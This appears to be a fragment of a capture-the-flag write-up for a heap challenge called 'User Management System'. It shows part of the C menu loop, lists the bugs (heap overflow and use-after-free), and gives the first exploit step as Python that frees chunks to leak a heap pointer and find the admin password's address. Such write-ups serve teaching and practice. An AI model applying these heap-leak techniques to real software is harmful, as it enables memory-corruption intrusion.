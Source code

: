 ```cpp=

    printf("**** User Management System ****\n");
    add_admin();

    while (power)
    {
        power--;
        printf("1. add_user\n"
               "2. edit_data\n"
               "3. del_user\n"
               "4. show_users\n"
               "5. bye\n"
               "> ");
        read(0, opt, 2);

        switch (opt[0]) {
        case '1': add_user(); break;
        case '2': edit_data(); break;
        case '3': del_user(); break;
        case '4': show_users(); break;
        case '5': exit(0);
        }
    }
    printf("No... no power..., b..ye...\n");
    
    return 0;
}
```
:::

### Something wrong
* Heap overflow
* Used after free(UAF)
* Note that, flag 1 is admin password, flag 2 is at `/home/chal/`


## Exploit

### Hard solution - leak heap base address + heap overflow
If we can use heap overflow to overlap the `user k`'s `*data`, then we can let it point to admin's password and use `show_users()` to print it out
1. leak admin password address
It's very straight forward, if we delete two user, user 2 first and then user 1, at the same time, the `fd` of user 1 will point to the data of user 2. Then we can use `show_user()` to leak the address and try to find `admin_pass_addr` by minus offset
    ```python!
    edit_data(0, 0x8, b'a')    # Must add this line to use heap overflow
    add_user(1, b'a'*8, b'aaaa')
    edit_data(1, 0x20, b'a')
    add_user(2, b'b'*8, b'bbbb')
    del_user(2)
    del_user(1)
    show_user()
    r.recvuntil(b'[1] ')
    r.recvuntil(b'data: ')
    admin_pass_addr = u64(r.recv(6).ljust(8, b'\x00')) - 0xa0
    print(hex(admin_pass_addr))
    ```
    ![](https://imgur.com/ZicILFr.png)
